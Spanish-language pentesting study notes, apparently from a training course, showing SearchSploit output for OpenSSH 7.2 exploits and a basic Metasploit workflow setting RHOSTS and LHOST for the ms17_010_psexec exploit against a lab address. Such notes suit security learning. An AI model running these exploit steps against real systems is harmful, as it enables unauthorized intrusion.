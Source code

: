 Una herramienta bien conocida para este propósito es **SearchSploit**, que podemos utilizar para buscar vulnerabilidades/exploits públicos para cualquier aplicación. Podemos instalarla con el siguiente comando:

```
searchsploit openssh 7.2

Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration       
```

También podemos utilizar bases de datos de exploits en línea para buscar vulnerabilidades, como **Exploit DB, Rapid7 DB o Vulnerability**

**Introducción a Metasploit**

El **Metasploit Framework (MSF)** es una excelente herramienta para los pentesters. Contiene muchos exploits incorporados para vulnerabilidades públicas y proporciona una manera sencilla de usar estos exploits contra objetivos vulnerables. MSF tiene muchas otras características, como:

- Ejecución de scripts de reconocimiento para enumerar hosts remotos y objetivos comprometidos.
- Scripts de verificación para probar la existencia de una vulnerabilidad sin comprometer realmente el objetivo.
- **Meterpreter**, una herramienta útil para conectarse a shells y ejecutar comandos en los objetivos comprometidos.
- Muchas herramientas de post-explotación y pivotaje.

Veamos un ejemplo básico de cómo buscar un exploit para una aplicación que estamos atacando y cómo explotarlo. Para ejecutar Metasploit, podemos usar el comando `msfconsole`:

buscamos un exploit para algo ene specifico
```
search exploit ********
```
cuando encontremos un exploit que nos sirva, lo que podemos hacer es usar el comando
``` 
use nombre_exploit
```

antews de ejecutar debemos configurar el exploit 

```
show options
```

si una confdiguracion es requerida debemos activarla y darle valores algo como esto
```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

una vez tenemos todo listo lo que podemos hacer es escribir `check` para ver si efectivamente es vulnerable o `exploit` para proceder con al ejecucion del exploit.
